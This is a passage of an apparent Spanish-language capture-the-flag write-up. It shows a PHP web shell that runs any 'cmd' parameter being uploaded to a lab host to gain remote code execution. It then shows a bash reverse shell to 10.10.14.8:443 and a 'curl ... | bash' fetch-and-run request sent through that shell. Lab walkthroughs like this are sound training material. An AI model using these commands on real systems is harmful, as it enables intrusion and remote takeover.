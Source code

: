 - Usuario Noah
![jwt-firefox](/assets/images/jwt-firefox.png) 
- Ejecucion de fichero php

### Uploadeamos un s4vishell.php {-}

Como hay un boton upload vamos a por una 
```bash
 s4vishell.php 
```


```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Subimos el fichero y perfecto nos va y pinchando el boton view ya tenemos Remote Code Execution

## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Crear una reverse shell desde la s4vishell.php con un index.html {-}

1. Creamos un index.html

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.8/443 0>&1
    ```

1. Compartimos un servicio http por el puerto 80

    ```bash
    python3 -m http.server 80
    ```

1. Desde la s4vishell

    ```php
    http://10.10.10.230/6a5sd4f6a5sd1f6as5dfa6sd51fa.php?cmd=curl 10.10.14.8|bash
    ```
